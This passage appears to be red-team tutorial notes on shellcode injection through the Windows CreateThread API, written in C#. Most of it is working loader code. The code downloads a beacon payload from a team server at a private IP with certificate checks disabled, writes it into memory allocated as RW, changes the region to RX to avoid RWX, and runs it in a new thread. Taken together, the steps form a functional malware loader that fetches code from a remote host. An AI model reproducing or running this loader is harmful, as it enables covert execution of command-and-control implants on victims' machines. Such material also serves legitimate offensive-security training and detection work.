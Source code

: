 The CreateThread API can be used to create a new thread within the calling process, so we'll be injecting the shellcode into the injector itself.  This is amongst the easiest and most basic type of injection.

1.  Download the shellcode from the Team Server using the **HttpClient** class.  This is disposable, so wrap it in a using statement or call the `Dispose()` method.  We also have to use the **ServerCertificateCustomValidationCallback** to ignore the self-signed SSL error.

static async Task Main(string[] args)
{
    byte[] shellcode;

    using (var handler = new HttpClientHandler())
    {
        // ignore ssl, because self-signed
        handler.ServerCertificateCustomValidationCallback = (message, cert, chain, sslPolicyErrors) => true;

        using (var client = new HttpClient(handler))
        {
            // Download the shellcode
            shellcode = await client.GetByteArrayAsync("https://10.10.0.69/beacon.bin");
        }
    }
}

  

2.  Use **VirtualAlloc** to allocate a new region of memory within this process.  The region has to be large enough to accommodate the shellcode, so we can just use the shellcode's length as a parameter.  The API will typically round up, which is fine.  We also allocate the region with RW permission so we can avoid RWX.

// Allocate a region of memory in this process as RW
var baseAddress = Win32.VirtualAlloc(
    IntPtr.Zero,
    (uint)shellcode.Length,
    Win32.AllocationType.Commit | Win32.AllocationType.Reserve,
    Win32.MemoryProtection.ReadWrite);

  

3.  Now we can copy the shellcode into this region.  Because it's our own process, we can use **Marshal.Copy** instead of the WriteProcessMemory API (saves a bit of time).

// Copy the shellcode into the memory region
Marshal.Copy(shellcode, 0, baseAddress, shellcode.Length);

  

4. Before we can execute the shellcode, we have to flip the memory protection of this region from RW to RX.  **VirtualProtect** takes in the new memory protection and pops out whatever the current protection is.  This is useful to have if you were to flip it back again, but since we're not, just dispose of it with `_`.

// Change memory region to RX
Win32.VirtualProtect(
    baseAddress,
    (uint)shellcode.Length,
    Win32.MemoryProtection.ExecuteRead,
    out _);

  

5.  Now we can call **CreateThread** to execute this shellcode.

// Execute shellcode
var hThread = Win32.CreateThread(
    IntPtr.Zero,
    0,
    baseAddress,
    IntPtr.Zero,
    0,
    out _);

  

6.  CreateThread is not a blocking call, so to prevent the process from exiting we can wait on this thread.  **WaitForSingleObject** will block for as long as the thread is running.

// Wait infinitely on this thread to stop the process exiting
Win32.WaitForSingleObject(hThread, 0xFFFFFFFF);

  

You should now have a beacon running inside the injector.

![[24. CreateThread.png]]


